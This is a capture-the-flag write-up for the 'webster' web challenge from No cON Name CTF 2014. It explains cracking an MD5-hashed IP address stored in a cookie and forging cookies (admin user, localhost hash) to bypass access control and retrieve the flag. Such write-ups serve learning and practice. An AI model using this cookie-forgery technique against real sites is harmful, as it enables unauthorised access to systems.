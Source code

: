 ## No cON Name CTF 2014 - webster (Web 200)
##### 14/09/2014 (20hr)
___

### Description: 
Super-secure cloud service.

https://ctf.noconname.org/webster/

___
### Solution
Try to login in the form. After few attempts login as test:test
Let's look the .htaccess file:
```
   Order allow,deny  
   Deny from all  
   Satisfy all  
```

In order to satisfy this rule we should be on the same lan with the server.
Let's look at the cookies:
```
	loc=c869d000ef5c6fdfa128b058d2865512;
```

After few tries, we finally can crack the hash:
```
	md5(10.128.29.136) = c869d000ef5c6fdfa128b058d2865512
```

Let's set the ip to localhost (127.0.0.1):
```
	MD5(127.0.0.1): f528764d624db129b32c21fbca0cb8d6
```

Change the from: ``` Cookie: valid_user=test; loc=c869d000ef5c6fdfa128b058d2865512; ```
to:              ``` Cookie: valid_user=admin;loc=f528764d624db129b32c21fbca0cb8d6; ```

Finally make a request to:
```
	https://ctf.noconname.org/webster/content.php?op=4
```

and get the flag: **NCN_f528764d624db129b32c21fbca0cb8d6**
___
